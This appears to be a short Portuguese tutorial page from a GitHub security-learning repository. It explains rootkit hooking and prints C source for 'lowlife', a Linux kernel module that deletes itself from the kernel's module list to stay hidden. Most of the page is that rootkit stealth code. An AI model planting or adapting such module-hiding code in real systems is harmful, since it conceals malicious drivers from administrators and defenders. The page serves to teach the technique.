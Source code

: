 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# Hooking
Um hook, é basicamente um gancho em alguma funcionalidade de algum software<br><br>
No caso dos rootkits, esse gancho seria geralmente para ocultar alguma coisa, um exemplo disso é o [lowlife](https://github.com/xnwm0/lowlife), que faz um hook pra se esconder na lista de drivers<br><br>

# lowlife
Veja a source do driver<br><br>
```c
/* 
 * lowlife.c 
 */

#include <linux/module.h>
#include "lowlife.h" /* -- header with low_drv_hide() -- */

static int __init low_init(void)
{
  low_drv_hide(); /* -- call low_drv_hide() -- */
  printk(KERN_INFO "driver lowlife is hidden.\n");
  return 0;
}

static void __exit low_exit(void)
{
  printk(KERN_INFO "driver unloaded.\n");
}

module_init(low_init);
module_exit(low_exit);

/* 
 * lowlife.h
 */

static struct list_head *drv_prev;
void low_drv_hide(void)
{
  drv_prev = THIS_MODULE->list.prev; /* --- load list previous --- */
  list_del(&THIS_MODULE->list); /* --- remove driver from drivers list --- */
}
```
<br>
Perceba que no lowlife.h, é carregada uma list, que seria a lista de drivers do sistema, e é feito um hook para o driver se auto-deletar da list<br><br>

Para entender melhor, veja esse vídeo https://youtu.be/3npnXeOnEAw

[pwn](../README.md)<br>
[home](../../README.md)
